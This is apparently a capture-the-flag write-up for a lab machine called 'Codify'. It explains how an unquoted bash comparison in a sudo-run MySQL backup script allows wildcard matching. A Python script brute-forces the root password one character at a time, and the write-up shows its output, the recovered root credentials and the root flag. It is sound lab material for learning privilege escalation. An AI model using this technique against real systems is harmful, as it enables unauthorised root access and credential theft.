 I have discover an unsafe practice in the MySQL bash script: unquoted variable comparison. Alright, based on your information, if the right side of the in a bash script is not quoted, Bash will perform pattern matching instead of treating it as a string. `==`
We can attempt to guess or brute force the initial password character followed by * in order to bypass the password prompt. Additionally, we can systematically brute force each character of the password until we successfully identify all the characters.

I write a script based on this information
```
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

I run the script:
```
joshua@codify:/tmp$ python3 bruteforce.py
[sudo] password for joshua: 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

I have discover the root credentials:
```
root:kljh12k3jhaskjh12kjh3
```

I take the `root flag`:
```
root@codify:/tmp# cat /root/root.txt
b6c8350ef29cc4ad242518b3a6153d8e
```